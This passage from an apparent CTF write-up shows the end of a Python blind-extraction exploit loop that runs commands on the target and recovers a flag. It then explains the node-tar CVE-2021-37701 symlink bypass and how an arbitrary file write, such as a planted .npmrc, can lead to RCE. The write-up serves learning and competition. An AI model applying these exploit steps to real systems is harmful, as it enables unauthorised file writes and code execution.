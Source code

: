 ```python
                remote_exec(t)
            except:
                continue

            try:
                requests.get(url, timeout=1)
                requests.get(url, timeout=1)
                requests.get(url, timeout=1)
            except:
                find = True
                result += char
                print(result)
                sleep(5)
                break

        if not find:
            result += ""

# The flag obtained is: bytectf{50579195da002fa989432cbc1a83e38f5d3765122d9a7d4d767f99a61fa58f22}
```

## easy_extract
This is the `Node` topic of the preliminary contest. At that time, I couldn't figure it out. After the final contest, I saw the `Node` topic above, so I also recorded it. At that moment, I managed to write to files, but there weren't many places with write permissions. I didn't expect to use the `.npmrc` file to write and then restart the tool. The following content is from the official `Writeup`, just for record. Details are provided in the reference link.

This topic uses the bypass vulnerability of the `node-tar` package's symbol link check, which was reported in August. The vulnerability itself can be found online with a `POC`, allowing arbitrary file writing. At the same time, this topic demonstrates the functionality of listing files combined with symbol links to be used for directory listing, assisting in determining the topic environment. However, for the sake of difficulty, the `Dockerfile` is exposed in the `/robots.txt`, providing some information on how the topic is started. Additionally, this topic also examines some ideas on causing `RCE` through arbitrary file writing without `web` application directory write permissions.
`CVE-2021-37701 node-tar` Arbitrary file write `/` override vulnerability (translated from the original report). `node-tar` has security measures aimed at ensuring that no files are extracted that have been modified by symbol links. This is achieved by ensuring that the extracted directory is not a symbol link. In addition, to prevent unnecessary `stat` calls to determine if a given path is a directory, the path is cached when creating the directory. However, in versions below `6.1.7` of `node-tar`, when a `tar` file containing a directory and a symbol link with the same name as the directory is extracted, this check logic is not sufficient. The symbol link and directory name in the archived entry use a backslash as the path separator on `posix` systems, while the cache check logic simultaneously uses the `/` character as the path separator. However, on `posix` systems, this is a valid file name character. By first creating a directory and then replacing it with a symbol link, it is possible to bypass the symbol link check for directories, essentially allowing untrusted `tar` files to symbolically link to any location and then extract any file to that location, thereby allowing arbitrary file creation and override. In addition, case-insensitive file systems may experience similar confusion. If a malicious `tar` contains a directory named `FOO`, followed by a symbolic link named `foo`, on a case-insensitive file system, the creation of the symbol link will remove the directory from the file system, but not from the internal directory because it will not be considered a cache hit. Subsequent file entries in the `FOO` directory will be placed in the target of the symbol link, assuming the directory has already been created. There are related articles that can be referred for the construction of a `POC`: 5 RCEs in npm for $15, 000. Therefore, we tried it out, but we found that there was a file size limit during the upload. Generally, files packaged with `tar` will be larger than `1KB`, so we can package a `.tar.gz` and change the extension back to `.tar`. In fact, `node-tar` does not determine file compression based on the extension, so files with a `.tar` extension can be properly unpacked. We found that a symbolic link pointing to outside of `/app/data` was indeed created, allowing for the listing of full paths:
